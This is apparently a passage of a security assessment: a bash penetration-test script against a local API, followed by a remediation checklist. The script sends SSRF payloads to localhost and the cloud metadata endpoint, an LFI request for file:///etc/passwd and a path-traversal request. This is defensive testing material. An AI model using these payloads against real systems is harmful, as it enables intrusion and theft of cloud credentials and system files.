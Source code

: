 ```bash
#!/bin/bash
# SSRF/LFI penetration test script

echo "Starting SSRF/LFI penetration test..."

TARGET_URL="http://localhost:3000/api"
TOKEN="your_jwt_token_here"

# Test 1: SSRF to localhost
echo "Test 1: SSRF to localhost"
curl -s -X POST "$TARGET_URL/users/avatar" \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://localhost:80","fetchFromUrl":true}' | jq .

# Test 2: SSRF to cloud metadata
echo "Test 2: SSRF to cloud metadata"
curl -s -X POST "$TARGET_URL/tasks/import" \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://169.254.169.254/latest/meta-data/","format":"json"}' | jq .

# Test 3: LFI via file protocol
echo "Test 3: LFI via file protocol"
curl -s -X POST "$TARGET_URL/users/avatar" \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"file:///etc/passwd","fetchFromUrl":true}' | jq .

# Test 4: Path traversal
echo "Test 4: Path traversal"
curl -s -H "Authorization: Bearer $TOKEN" \
     "$TARGET_URL/files/../../../../etc/passwd" | head -5

echo "Penetration test completed."
```

## Remediation Checklist

### Immediate Actions (Critical)
- [ ] Implement URL validation and allowlisting
- [ ] Block access to cloud metadata services
- [ ] Disable file protocol support
- [ ] Add path traversal protection
- [ ] Implement network-level blocking of private IPs

### Short-term Actions (High Priority)
- [ ] Add comprehensive input validation
- [ ] Implement secure file serving mechanisms
- [ ] Set up network monitoring for SSRF attempts
- [ ] Add rate limiting to prevent automated attacks
- [ ] Configure Web Application Firewall (WAF) rules
